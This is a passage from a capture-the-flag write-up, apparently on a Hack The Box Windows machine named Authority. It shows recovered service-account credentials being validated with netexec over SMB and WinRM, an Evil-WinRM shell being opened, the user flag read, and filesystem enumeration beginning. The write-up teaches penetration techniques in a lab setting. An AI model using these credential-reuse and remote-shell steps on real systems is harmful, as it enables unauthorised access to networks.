 Those creds work with the svc\_ldap account over both SMB and WinRM:

```
oxdf@hacky$ netexec smb authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
oxdf@hacky$ netexec winrm authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
SMB         10.10.11.222    5985   AUTHORITY        [*] Windows 10.0 Build 17763 (name:AUTHORITY) (domain:authority.htb)
HTTP        10.10.11.222    5985   AUTHORITY        [*] http://10.10.11.222:5985/wsman
HTTP        10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)

```

I’ll go directly to WinRM and get a shell:

```
oxdf@hacky$ evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_ldap\Documents>

```

And the user flag:

```
*Evil-WinRM* PS C:\Users\svc_ldap\desktop> cat user.txt
31d4b9bf************************

```

## Shell as administrator

### Enumeration

#### Filesystem

The filesystem is quite bare. There no other user directory on the box other than `Public` (which is empty) and `Admistrator` (which is where I want to get):

```
*Evil-WinRM* PS C:\users> ls

    Directory: C:\users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/17/2023   9:31 AM                Administrator
d-r---         8/9/2022   4:35 PM                Public
d-----        3/24/2023  11:27 PM                svc_ldap

```
